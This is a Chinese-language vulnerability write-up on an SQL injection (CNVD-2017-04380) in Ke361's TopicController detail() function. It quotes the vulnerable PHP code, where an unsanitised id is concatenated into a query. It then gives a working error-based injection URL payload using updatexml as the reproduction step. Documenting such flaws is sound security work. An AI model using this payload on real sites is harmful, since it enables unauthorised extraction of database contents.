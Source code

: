 # 

# Ke361 TopicController.class.php SQL注入漏洞 CNVD-2017-04380

## 漏洞描述

Ke361 TopicController.class.php 文件中 detai() 函数中存在 SQL注入漏洞

## 漏洞影响

```
Ke361
```

## 环境搭建

https://gitee.com/jcove/ke361

## 漏洞复现

存在漏洞的文件为 Application/Home/Controller/TopicController.class.php, 漏洞函数详情

![image-20220518153711939](./images/202205181537005.png)

```
public function detail(){
         $id = I('id');
         $where['tid'] = $id;
         $TopicModel = new TopicModel();
         $topicInfo = $TopicModel->info($id);
        //  if(empty($topicInfo)){
        //      $this->error('您查看的专题不存在哦！');
        //  }
  			//  这里注释掉，默认不存在专题
         M('Topic')->where('id='.$id)->setInc('hits');
         $this->setSiteTitle($topicInfo['title']);
         $goods = $this->lists(D('Goods'),$where);
         foreach ($goods as $k=>$v){
             $goods[$k]['url'] = U('/goods/'.$v['id']);
         }
         $this->assign('goods',$goods);
         $this->assign('topic',$topicInfo);
         $this->display();
     }
```

这里接收参数 id，然后执行SQL语句, 通过报错注入可以获取数据库数据

```
/index.php?s=/Topic/detail/id/1)%20%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```

![image-20220518153727479](./images/202205181537557.png)

![image-20220518153736954](./images/202205181537004.png)
